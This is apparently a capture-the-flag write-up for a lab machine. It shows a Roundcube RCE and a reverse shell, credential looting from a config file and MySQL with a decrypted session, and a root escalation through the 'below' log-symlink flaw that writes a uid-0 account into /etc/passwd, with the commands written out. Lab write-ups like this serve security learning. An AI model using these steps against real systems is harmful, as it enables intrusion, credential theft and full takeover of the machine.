

Recon
Initial Nmap scan revealed two open ports:
- 22/tcp – OpenSSH 9.6p1
- 80/tcp – Nginx 1.24.0
Visiting http://<target_ip> redirected to http://mail.outbound.htb/. Added to /etc/hosts:
<target_ip> mail.outbound.htb
Web Enumeration
Discovered Roundcube login portal. Ran Nuclei:
nuclei -u http://mail.outbound.htb/
Found CVE-2025–49113 (RCE via insecure deserialization). Also:
/roundcube/logs/errors.logexposed
Exploitation
Used PoC exploit for RCE and gained reverse shell as www-data. Found user tyler in /home:
su tyler
Database Looting
Found creds in:
/var/www/html/roundcube/config/config.inc.php
Logged into MySQL:
mysql -u roundcube -pRCDBPass2025 -h localhost roundcube
Decrypted session with Triple DES using:
rcmail-!24ByteDESkey*Str
Recovered password for jacob.
SSH Access
ssh jacob@outbound.htb
Privilege Escalation
sudo -l
Revealed access to /usr/bin/below, exploitable via CVE-2025–27591. Root escalation:
echo 'root2:aacFCuAIHhrCM:0:0:,,,:/root:/bin/bash' > root2
rm error_root.log
ln -s /etc/passwd error_root.log
sudo /usr/bin/below
cp root2 error_root.log
su root2
Password hash via:
perl -e 'print crypt("1","aa")'
Root Access
Shell upgraded. Switched to root2 successfully:
Conclusion
From RCE in Roundcube → decrypted DB creds → SSH pivot → log overwrite exploit for full root. Solid escalation path and rewarding finish.